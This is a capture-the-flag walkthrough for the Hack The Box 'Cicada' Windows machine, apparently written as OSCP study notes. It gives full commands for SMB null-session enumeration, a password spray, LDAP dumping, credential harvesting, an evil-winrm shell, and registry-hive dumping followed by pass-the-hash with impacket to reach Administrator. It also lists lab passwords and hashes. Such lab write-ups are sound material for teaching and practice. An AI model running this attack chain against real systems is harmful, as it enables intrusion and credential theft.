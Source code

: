 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Exploits Used**:
  - Null‑session SMB enumeration 🗂️  
  - Password spray via `netexec` 🔧  
  - LDAP dump with `ldapdomaindump` 📋  
  - SMB share discovery & credential harvest 🔍  
  - WinRM shell with `evil-winrm` 🪓  
  - Priv‑Esc: `SeBackupPrivilege` → `reg save` → `impacket‑secretsdump` → Pass‑the‑Hash  

---

## 🕵️ Recon

#### fast full-port + default scripts
```bash
sudo nmap -sC -sV -p- 10.10.11.35 -oA nmap/cicada
```

#### check null‑session SMB shares

```bash
nxc smb 10.10.11.35 -u guest -p '' --shares
```

- **[SMB](SMB)** (445) – null‑session allows listing `HR` share
- **[Kerberos](KERBEROS)** (88), **LDAP** (389/636/3268/3269), **WinRM** (5985)

---

## 💥 Initial Foothold

1. **SMB null‑session → HR share**  
```bash
smbclient //10.10.11.35/HR -U guest
```

```powershell
get "Notice from HR.txt"
```
3. **Notice from HR.txt** contains default password  
   ```
   Cicada$M6Corpb*@Lp#nZp!8
   ```
4. **RID‑brute** to enumerate users  
   ```bash
   nxc smb 10.10.11.35 -u guest -p '' --rid-brute > rids.txt
   awk -F'\\\\|\\(' '{print $2}' rids.txt | tail -n +5 > users.txt
   ```
5. **Password spray** against user list  
```bash
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' \
     --continue-on-success
```
   → **michael.wrightson** authenticated ✅

6. **LDAP dump** with valid creds  
```bash
ldapdomaindump -u cicada.htb\\michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35 -o ldapdump
```
7. **Found `david.orelious` password** in LDAP attribute →  
   `aRt$Lp#7t*VQ!3`

---

## 🔍 Pivot & Credential Harvest

1. **SMB with `david.orelious`**  
```bash
smbclient //10.10.11.35/DEV -U david.orelious
```

```powershell
get Backup_script.ps1
```
3. **Backup_script.ps1** reveals **`emily.oscars:Q!3@Lp#M6b*7t*Vt`**  
4. **WinRM shell as Emily**  
   ```bash
   evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
   ```
5. **Grab user flag**  
   ```powershell
   type C:\Users\emily.oscars.CICADA\Desktop\user.txt
   # => d333d*********************
   ```

---

## 🚀 Privilege Escalation

1. **Check Emily’s privileges**  
```powershell
whoami /priv
```
```
# SeBackupPrivilege          Enabled
# SeRestorePrivilege         Enabled
```

2. **Dump SAM & SYSTEM hives**  
   ```powershell
   mkdir C:\temp
   reg save hklm\sam C:\temp\sam.hive
   reg save hklm\system C:\temp\system.hive
   ```
3. **Download hives to Kali**  
   ```powershell
   download C:\temp\sam.hive
   download C:\temp\system.hive
   ```
4. **Extract NT hashes**  
   ```bash
   impacket-secretsdump -sam sam.hive -system system.hive local
   # Administrator:500:…:2b87e7c93a3e8a0ea4a581937016f341
   ```
5. **Pass‑the‑hash as Administrator**  
   ```bash
   impacket-psexec cicada.htb/Administrator@10.10.11.35 \
     -hashes 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341'
   ```
6. **Get SYSTEM shell & root flag**  
   ```powershell
   type C:\Users\Administrator\Desktop\root.txt

   ```

---

## 🛠 Tools & References

- **SMB & Kerberos**: `nmap`, `netexec`, `smbclient`  
- **LDAP dump**: [ldapdomaindump](https://github.com/BloodHoundAD/ldapdomaindump)  
- **WinRM**: [`evil-winrm`](https://github.com/Hackplayers/evil-winrm)  
- **Priv‑Esc**: [`impacket`](https://github.com/SecureAuthCorp/impacket)  

https://www.youtube.com/watch?v=21Z_byocGhI